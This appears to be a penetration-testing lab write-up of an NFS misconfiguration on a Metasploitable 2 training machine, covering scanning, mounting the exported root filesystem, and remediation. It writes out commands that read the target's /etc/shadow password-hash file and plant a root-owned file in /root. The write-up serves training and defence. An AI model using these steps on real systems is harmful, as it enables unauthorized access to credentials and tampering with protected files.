










# Incident 20 — NFS Misconfiguration: Unauthorized Root-Level File Access

**Offensive Security Lab | Linux Internal Penetration Testing | Metasploitable 2**

> **Lab scope:** This investigation was performed in a controlled, authorized VirtualBox environment against Metasploitable 2, an intentionally vulnerable training machine. The configuration and findings below are specific to this lab.

## Executive Summary

During an internal network assessment, an NFS service was discovered on **TCP port 2049**. Enumeration revealed that the target exported its **entire root filesystem (`/`) to any client (`*`)**. The server export configuration combined `rw` with `no_root_squash`, allowing a root process on the Kali client to access root-protected files and create root-owned files on the target through the NFS mount.

The impact was validated by reading protected `/etc/shadow` entries and creating a harmless proof file inside the target's `/root` directory. The proof file was subsequently deleted, and the NFS filesystem was unmounted. **No remote shell or password cracking was necessary or claimed.**

| Field | Details |
|---|---|
| Finding | Insecure NFS export configuration (`/ *(rw,sync,no_root_squash,no_subtree_check)`) |
| Severity | **Critical (lab assessment)** — whole-filesystem exposure and privileged read/write impact |
| Attacker | Kali Linux — `172.30.1.20`, interface `eth1` |
| Target | Metasploitable 2 — `172.30.1.22` |
| Network | Isolated lab subnet `172.30.1.0/24` |
| Service | NFS on TCP `2049` (with RPC support) |
| Date | November 3, 2026 |
| Outcome | Confirmed privileged file reading and root-owned file creation; cleanup verified |

## 1. Network Discovery

First, Kali's interface configuration was reviewed to identify the correct lab network:

```bash
ip -br -4 addr
```

The relevant interface was `eth1`, assigned `172.30.1.20/24`. Host discovery was then performed:

```bash
sudo nmap -sn 172.30.1.20/24
```

`-sn` performs host discovery without port scanning. The scan identified three active addresses on the subnet, including the attacker (`172.30.1.20`) and the intended target (`172.30.1.22`).



## 2. Service Enumeration

Next, TCP services running on the target were enumerated:

```bash
sudo grc nmap -sS -sV -n --open 172.30.1.22
```

- `grc` adds terminal output coloring; it does not change Nmap's scan logic.
- `-sS` performs a TCP SYN scan.
- `-sV` probes open ports to identify services and versions.
- `-n` disables DNS resolution.
- `--open` limits displayed ports to open or potentially open states.

The scan reported **23 open TCP ports** among the 1,000 common TCP ports scanned. Of particular interest:

```text
111/tcp  open  rpcbind  2 (RPC #100000)
2049/tcp open  nfs      2-4 (RPC #100003)
```

NFS was selected for focused investigation. The other exposed services were out of scope for this particular finding.



**Investigation workflow:**


## 3. NFS Export Enumeration

The NFS server was queried for its exported paths:

```bash
showmount -e 172.30.1.22
```

Response:

```text
Export list for 172.30.1.22:
/ *
```

This revealed an export of `/` (the entire root filesystem), with `*` indicating that the export was advertised to all client hosts. `showmount` enumerates exports; **it does not mount them or prove file access**.



**Remote/local filesystem relationship:**


## 4. Mounting the Remote Filesystem

A local mount point was created on Kali, and the target's exported root directory was mounted:

```bash
sudo mkdir -p /mnt/metasploitable
sudo mount -t nfs 172.30.1.22:/ /mnt/metasploitable
ls -la /mnt/metasploitable
```

- `mkdir -p` creates the mount directory if needed.
- `mount -t nfs` attaches the remote NFS filesystem at the specified Kali directory.
- `ls -la` displays a detailed listing, including hidden entries.

The listing displayed target directories such as `etc`, `home`, `root`, `usr`, and `var`. These were **remote files exposed through the mount, not copies transferred to Kali**.




## 5. Confirming Remote File Access

A low-risk system file was read to confirm that file access worked:

```bash
cat /mnt/metasploitable/etc/hostname
```

Output:

```text
metasploitable
```

This demonstrated successful reading of a remote file over the NFS mount.




## 6. Testing Permission Boundaries

The target's password-hash database was used to compare access as the ordinary Kali user versus Kali root.

**Unprivileged attempt:**

```bash
cat /mnt/metasploitable/etc/shadow
```

Output:

```text
cat: /mnt/metasploitable/etc/shadow: Permission denied
```

The regular client user could not read this protected file.




**Privileged attempt:**

```bash
sudo head -n 2 /mnt/metasploitable/etc/shadow
```

This time the command succeeded and returned entries from the remote `/etc/shadow`. `head -n 2` limits the output to two lines. **Password hashes are deliberately omitted from this README and redacted in the publication screenshot.**

The successful read established the confidentiality impact: an attacker with root privileges on an NFS client could access protected data on the server.



## 7. Root Cause — Insecure Export Configuration

The NFS export configuration was inspected directly through the mount:

```bash
cat /mnt/metasploitable/etc/exports
```

The relevant line was:

```text
/       *(rw,sync,no_root_squash,no_subtree_check)
```

| Configuration | Meaning | Security implication |
|---|---|---|
| `/` | Exports the filesystem root | Extremely broad data exposure |
| `*` | Matches any client host | No restriction to a trusted host/subnet |
| `rw` | Enables reads and writes | Permits changes subject to filesystem permissions |
| `sync` | Uses synchronous writes | Not the security vulnerability |
| `no_root_squash` | Preserves client UID 0 as root | Client root can act as root for NFS file operations |
| `no_subtree_check` | Disables subtree validation | Not the primary cause of this finding |

The **dangerous combination** is the unrestricted, writable root export together with `no_root_squash`.



## 8. Validating Root-Level Write Access

For a stronger proof than writing to world-writable `/tmp`, a benign text file was created inside the protected remote `/root` directory:

```bash
echo 'INCIDENT20-ROOT-WRITE-PROOF' | sudo tee /mnt/metasploitable/root/incident20-proof.txt
sudo ls -l /mnt/metasploitable/root/incident20-proof.txt
```

The command returned the proof marker and the file listing:

```text
-rw-r--r-- 1 root root 28 ... /mnt/metasploitable/root/incident20-proof.txt
```

The remote file was created **inside a root-controlled directory** and was owned by `root:root`. This confirms the integrity impact of the export configuration; a writable root export with `no_root_squash` can enable privileged filesystem changes from the client.

This was **filesystem-level privileged access, not proof of an interactive remote root shell**.



## 9. Cleanup and Final Verification

The only proof file created for this validation was removed:

```bash
sudo rm /mnt/metasploitable/root/incident20-proof.txt
sudo test ! -e /mnt/metasploitable/root/incident20-proof.txt && echo 'CLEANUP VERIFIED'
```

The verification printed `CLEANUP VERIFIED`. The remote filesystem was then disconnected:

```bash
sudo umount /mnt/metasploitable
mountpoint /mnt/metasploitable
```

Output:

```text
/mnt/metasploitable is not a mountpoint
```

This confirms that the proof file was absent when tested and that the NFS mount was no longer active. The target's insecure configuration was **not modified** as part of the exercise.



## Impact Assessment

**Confirmed:**

- Discovery of an NFS export exposing the server's filesystem root to all client hosts.
- Remote reading of a regular system file.
- Remote reading of protected password-hash entries using Kali root.
- Remote creation of a root-owned file inside the target's `/root` directory.
- Removal of the test file and successful NFS unmount.

**Not demonstrated:** interactive root shell, persistent access, password recovery, compromise of other systems, or modification of existing protected configuration files. Those outcomes are not necessary to establish this finding and should not be inferred from the available evidence.

## Remediation Recommendations

1. **Remove the root (`/`) export.** Share only the minimum required application/data directory.
2. **Restrict allowed NFS clients** to explicitly trusted host IPs or networks; do not use `*` for a sensitive export.
3. **Remove `no_root_squash`** and use `root_squash` (the usual default) so a client-side root user does not automatically retain UID 0 on the server.
4. **Use read-only exports (`ro`)** where writes are not required.
5. **Restrict NFS and supporting RPC services at network boundaries**, and consider appropriately authenticated NFS configurations where supported.
6. **Audit permissions, exports, and access logs** after correcting the configuration; retest export enumeration, read access, and write access.

## Key Takeaways

This lab followed a complete offensive validation sequence: **host discovery → service enumeration → NFS export discovery → remote mounting → privileged access testing → root-cause identification → proof of privileged write → cleanup**.

The key lesson is that NFS permissions are not determined solely by the visibility of a share. The server's export configuration and the identity under which the client performs filesystem operations determine the security impact. Here, exporting `/` with `rw` and `no_root_squash` exposed sensitive data and allowed root-level modifications through the mounted filesystem.

---

**Tools:** Nmap, GRC, showmount, NFS mount utilities, standard Linux commands (`ip`, `ls`, `cat`, `head`, `tee`, `rm`, `test`, `umount`, `mountpoint`).

**Environment:** VirtualBox · Kali Linux · Metasploitable 2 · Authorized isolated lab.
